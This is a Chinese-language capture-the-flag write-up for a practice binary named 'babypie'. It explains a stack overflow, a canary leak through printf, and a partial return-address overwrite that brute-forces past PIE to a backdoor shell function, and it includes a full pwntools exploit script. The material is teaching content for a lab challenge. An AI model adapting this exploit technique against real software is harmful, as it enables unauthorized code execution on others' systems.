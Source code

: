 溢出点在sub_960中，此外程序有一个后门函数，可以直接调用获取shell。由于开启了PIE，所以只能知道后门函数的低12位地址为0xA3E

![Alt](img/wiki-ROPTricks4.png)

可以知道，buf到canary的偏移为`0x30-0x8`,因为printf 使用 %s 时, 遇到 \0 结束, 所以覆盖 canary 低位为非 0 ，即`'a'*(0x30-0x8+1)`
打印出canary后，通过第二个read函数控制返回地址到后门函数，拿到shell

```python
    from pwn import *

    getshell = 0xaa3e

    while True:
        p = process('../Desktop/babypie')
        # gdb.attach(p)
        p.sendafter('Name:\n','a'*(0x30-0x8)+'b')
        p.recvuntil('b')
        canary = u64('\x00'+p.recvn(7))
        success('canary = %#x',canary)

        payload = 'A'*(0x30-0x8) + p64(canary) + 'B'*8 + p64(getshell)[:2]
        p.sendafter('\n',payload)
        try:
            p.recv(timeout=1)
            sleep(1)
            p.interactive()
            break
        except EOFError:
            p.close()
```
